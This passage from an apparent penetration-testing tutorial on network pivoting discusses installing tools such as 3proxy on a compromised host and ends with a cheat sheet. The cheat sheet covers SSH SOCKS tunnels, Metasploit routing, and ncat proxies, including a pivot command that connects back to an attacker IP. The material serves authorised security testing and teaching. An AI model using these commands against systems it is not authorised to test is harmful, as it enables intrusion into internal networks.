     # On attacker machine (metasploit)
    root@12f888991729:/$ wget ssh:8080/WebGoat
    Saving to: ‘WebGoat'

---

## Method 4: Installing tools on the target machine

If you are willing to install tools on the target machine, you could install various command line tools (or even visual desktop servers like VNC) and use the pivot box as a "new" attacker machine. This is sometimes the way to go if installing tools on such a device is allowable in the rules of engagement.

One additional proxy tool I will mention under this category is 3proxy, a swiss army knife of a proxy with tons of options. Unfortunately, for linux hosts you will need to build a static binary to deploy (or attempt to build on the target), so is a little less simple to get running.

## A Quick Pivot CheatSheet

All of these methods are potentially limited by the permissions on the proxy host - non-root users for instance cannot perform certain types of scans over the proxy.

### SSH pivot

    ssh -D localhost:<local_proxy_port> -f -N <user>@<machine_to_pivot>

### Metasploit with Meterpreter

    msf5 >route add <network_to_proxy_in_CIDR_notation> <meterpreter_session_id>
    [*] Route added
    msf5 > use auxiliary/server/socks4a
    msf5 auxiliary(server/socks4a) > set SRVPORT 9050
    SRVPORT => 9050
    msf5 auxiliary(server/socks4a) > run -j

### Ncat HTTP proxy

    $ ncat -vv --listen 3128 --proxy-type http

### Ncat Port Forwarder

On attacker machine:

    $ ncat -lv --broker -m2 <port>

On pivot machine:

    $ ncat -v <attacker_ip> <attacker_port> -c "ncat -v <host_to_pivot_to> <port_on_final_target"

### Netcat Port Forwarder

On pivot machine:
